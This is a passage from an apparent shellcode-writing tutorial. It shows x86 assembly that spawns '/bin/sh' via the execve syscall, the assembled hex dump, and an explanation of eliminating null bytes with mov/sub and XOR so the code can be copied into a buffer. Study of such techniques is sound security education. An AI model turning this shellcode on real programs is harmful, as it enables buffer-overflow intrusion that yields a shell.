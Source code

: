 ```
                    ; BBBB is in the string ( 12 bytes offset)
 mov eax, 11        ; Now put 11 into eax, since execve is syscall #11
 lea ecx, [ebx+8]   ; Load the address of where the AAAA was in the string
                    ; into ecx
 lea edx, [ebx+12]  ; Load the address of where the BBBB was in the string
                    ; into edx
 int 0x80           ; Call the kernel to make the system call happen
two:
 call one           ; Use a call to get back to the top and get the
 db '/bin/shXAAAABBBB'       ; address of this string
```

Still isn’t usable as shellcode yet we need to removing `Null Bytes` let’s examine the code in a hex editor

```bash
$ nasm shellcode.asm
$ hexeditor shellcode

00000000 B8 46 00 00 00 BB 00 00 00 00 B9 00 00 00 00 CD .F..............
00000010 80 EB 1C 5B B8 00 00 00 00 88 43 07 89 5B 08 89 ...[......C..[..
00000020 43 0C B8 0B 00 00 00 8D 4B 08 8D 53 0C CD 80 E8 C.......K..S....
00000030 DF FF FF FF 2F 62 69 6E 2F 73 68 58 41 41 41 41 ..../bin/shXAAAA
00000040 42 42 42 42                                     BBBB
```


Any null byte in the shellcode (the ones shown in bold) will be considered the end of the string, causing only the first 2 bytes of the shellcode to be copied into the buffer. In order to get the shellcode to copy into buffers properly, all of the null bytes must be eliminated.

Places in the code where the static value of 0 is moved into a register are obvious sources of null bytes in the assembled shellcode. In order to eliminate null bytes and maintain functionality, a method must be devised for getting the static value of 0 into a register without actually using the value 0. One potential option is to move an arbitrary 32-bit number into the register and then subtract that value from the register using the mov and sub instructions.

```
mov ebx, 0x11223344
sub ebx, 0x11223344
```

While this technique works, it also takes twice as many instructions, making the assembled shellcode larger than necessary. Luckily, there’s a solution that will put the value of 0 into a register using only one instruction: XOR. The XOR instruction performs an exclusive OR operation on the bits in a register.

An exclusive OR transforms bits as follows:

```cpp
1 xor 1 = 0
0 xor 0 = 0
1 xor 0 = 1
0 xor 1 = 1
```
